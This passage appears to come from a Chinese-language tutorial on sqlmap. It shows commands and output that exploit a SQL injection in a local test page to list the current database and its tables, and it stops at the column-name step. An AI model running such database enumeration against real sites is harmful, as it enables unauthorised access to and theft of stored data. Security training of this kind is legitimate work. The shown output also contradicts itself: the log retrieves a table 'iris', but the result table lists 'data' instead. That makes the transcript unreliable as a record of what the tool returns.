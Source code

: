 `--dbs`用于获取所有数据库名称，`--current-db`用于获取当前数据库，`--current-user`获取当前用户。

```
C:\Users\asus> sqlmap -u http://localhost/sql.php?id= -p id --current-db

...

[12:10:44] [INFO] fetching current database
[12:10:54] [INFO] retrieved: test
current database:    'test'
[12:10:54] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\localhost'

[*] shutting down at 12:10:54
```

### 获取表名

`-D`用于指定数据库名称，如果未指定则获取所有数据库下的表名。`--tables`用于获取表名。

```
C:\Users\asus> sqlmap -u http://localhost/sql.php?id= -p id -D test --tables

...

[12:13:25] [INFO] fetching tables for database: 'test'
[12:13:28] [INFO] the SQL query used returns 7 entries
[12:13:30] [INFO] retrieved: email
[12:13:32] [INFO] retrieved: history
[12:13:34] [INFO] retrieved: iris
[12:13:36] [INFO] retrieved: message
[12:13:38] [INFO] retrieved: result
[12:13:40] [INFO] retrieved: sqlinj
[12:13:42] [INFO] retrieved: test_table
Database: test
[7 tables]
+------------+
| email      |
| history    |
| data       |
| message    |
| result     |
| sqlinj     |
| test_table |
+------------+

[12:13:42] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\localhost'

[*] shutting down at 12:13:42
```

### 获取列名

`-T`用于指定表名，`--columns`用于获取列名。
